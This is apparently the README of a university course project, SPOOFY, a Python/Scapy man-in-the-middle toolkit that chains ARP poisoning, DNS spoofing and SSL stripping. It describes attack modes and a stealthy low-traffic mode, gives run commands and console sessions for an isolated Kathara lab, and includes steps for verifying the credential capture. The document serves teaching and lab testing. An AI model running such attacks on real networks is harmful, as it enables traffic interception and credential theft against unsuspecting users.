

# 2IC80-Project - SPOOFY: ARP Poisoning & DNS Spoofing with SSL Stripping tool

## Table of Contents
* [Overview](#overview)
* [Features](#features)
* [Attack Modes](#attack-modes)
* [Kathara Lab Environment](#kathara-lab-environment)
* [User Guide](#user-guide)

## Overview 
This project implements a **fully-fledged, plug-and-play Man-in-the-Middle (MITM)** attack toolkit using **Python and Scapy**.  
The tool performs automated interception and manipulation of traffic through a combination of:

- **ARP Poisoning**
- **DNS Spoofing**
- **SSL Stripping**

## Features
### 1. ARP Poisoning
- Performs **ARP cache poisoning** between victim and gateway  
- Intercepts and relays packets while keeping the victim online 
- Includes a **silent mode** that minimizes ARP traffic to reduce detection footprint  

### 2. DNS Spoofing Engine
- Intercepts DNS queries passing through the attacker  
- Injects forged DNS responses before the legitimate resolver  
- Supports per-domain redirection (e.g., `example.com → attacker IP`)  
- Integrates seamlessly when paired with the ARP MITM position  

### 3. SSL Stripping
- Downgrades HTTPS connections to HTTP when possible  
- Removes HTTPS redirections and rewrites responses
- Operates transparently once MITM is established  

### 4. Automation
The toolkit automatically adapts to new networks by performing:

- Discovery of attacker IP, MAC, and active interface  
- Automatic detection of the default gateway  
- Scanning and enumeration of potential victims  
- Detection of DNS servers used by the victim  
- Automatic enabling of packet forwarding  

This allows the tool to run with minimal user configuration.

### 6. Modular Architecture
Each attack technique is implemented as a separate module within `/home/lab/src/`, enabling easy maintenance and future extensions.

## Attack Modes
- **arp-only** - Performs two directional ARP poisoning to position the attacker as MINT between the victim and the gateway.
    - **all-out** mode - Continuous (gratuitous) poisoning at set intervals. This is the default mode.
    - **silent** mode - Reactive posoning based on sniffed ARP traffic.
- **dns-only** - Stealthy DNS redirection without persistent MITM.
- **arp-dns** - Guaranteed DNS redirection for targeted domains. Combines ARP poisoning with DNS spoofing.
- **arp-ssl** - Downgrading and intercepting encrypted web traffic. Uses ARP poisoning to establish MITM position and then leverages by the SSL stripper.
- **arp-dns-ssl** - Provides full control over victim's traffic. ARP poisoning makes traffic go through the attacker, DNS spoofing provides control over where the victim connects, and SSL stripping is applied to mediate encrypted web traffic.

## Kathara Lab Environment
A **Kathara network lab** was made to test the attacks in an isolated environment.

The lab includes:

| Node | IP Address | Role |
|------|-----------|------|
| **Gateway** | 10.0.0.1 | DNS server and network gateway |
| **Attacker** | 10.0.0.10 | MITM toolkit execution |
| **Victim** | 10.0.0.20 | Attack target |
| **Server** | 10.0.0.30 | HTTP website on port 80 |

All nodes are connected on the **10.0.0.0/24** subnetwork.

Startup scripts automatically configure:
- IP addressing  
- Routing
- DNS
- Python environment on the attacker VM with the tools from /src directory
- Changes to the code from the host update dynamically in the attacker

## User Guide

### Prerequisites
Ensure the following are installed on your host machine:

- **Kathara** (3.8.0 version)
- **Docker**
- **Python 3** on the host (for editing the toolkit)

### 1. Starting the lab
Navigate to `lab/` and launch:
```bash
cd ./lab
kathara lstart
```

### 2. Running the tool
Inside the Attacker Terminal:

```bash
cd /home/lab/
source venv/bin/activate
cd src/
python console.py
```


Alternatively, the attack can be executed using the command-line interface as follows:
```
python main.py run --mode arp-dns --victim-ip 10.0.0.20 --target-ip 10.0.0.1 --dns-rules dns_rules.json
```
<!-- Where the remainder of the command consists of parameters passed to the attack. -->

### 3. Example Sessions:
- ARP Poisoning (with Silent mode)
<pre>
<span style="color:red">spoofy</span> > use arp-only
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set VICTIM_IP 10.0.0.20
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set TARGET_IP 10.0.0.1
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set SILENT true
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > run
</pre>


- DNS Spoofing
<pre>
<span style="color:red">spoofy</span> > use dns-only
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set VICTIM_IP 10.0.0.20
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set TARGET_IP 10.0.0.1
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set DNS_RULES dns_rules.json
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > run
</pre>

- ARP + DNS
<pre>
<span style="color:red">spoofy</span> > use arp-dns
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set VICTIM_IP 10.0.0.20
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set TARGET_IP 10.0.0.1
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set DNS_RULES dns_rules.json
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > run
</pre>

- ARP + SSL
<pre>
<span style="color:red">spoofy</span> > use arp-ssl
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set VICTIM_IP 10.0.0.20
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set TARGET_IP 10.0.0.1
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > run
</pre>

- ARP + DNS + SSL
<pre>
<span style="color:red">spoofy</span> > use arp-dns-ssl
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set VICTIM_IP 10.0.0.20
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set TARGET_IP 10.0.0.1
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > set DNS_RULES dns_rules.json
<span style="color:red">spoofy</span> attack<span style="color:cyan">(arp-only)</span> > run
</pre>

### 4. Verifying the Attacks:
From the **Victim Terminal**, you can verify that attacks are working:

#### ARP Poisoning Verification
Check the victim's ARP cache to verify the attacker's MAC address is bound to the gateway IP:
```bash
arp -n
```
Look for an entry where the gateway IP (10.0.0.1) maps to the attacker's MAC address instead of the true gateway MAC.

#### DNS Spoofing Verification
Query a domain configured in the DNS rules file to verify spoofing is active:
```bash
nslookup example.com
```
The response should show the attacker's IP address (10.0.0.10) instead of the legitimate target. Domains not in `dns_rules.json` work normally.

#### SSL Stripping Verification
From the **Victim Terminal**, simulate a login attempt by sending HTTP POST requests with credentials:
```bash
curl -X POST http://example.com/login -d "username=alice&password=secret123"
```
The attacker will capture and display the transmitted credentials in its console output, demonstrating successful SSL stripping and credential interception.

Additionally, on the **Attacker Terminal**, monitor HTTPS traffic being tunneled to the real server:
```bash
tcpdump -i eth0 -n host bank.com and port 443
```
This shows the encrypted HTTPS traffic being forwarded between the victim and the legitimate server, confirming the attacker's MITM position.

### 5. Interrupting/Stopping the attack:
The attacks can be stopped from the command line using Ctrl+C

### 6. Stopping the lab
From the host machine to cleanly remove all VMs and close Kathara run:
```bash
cd lab/
kathara lclean
```

### Demonstration Video
You can see the tool in action in the following video:


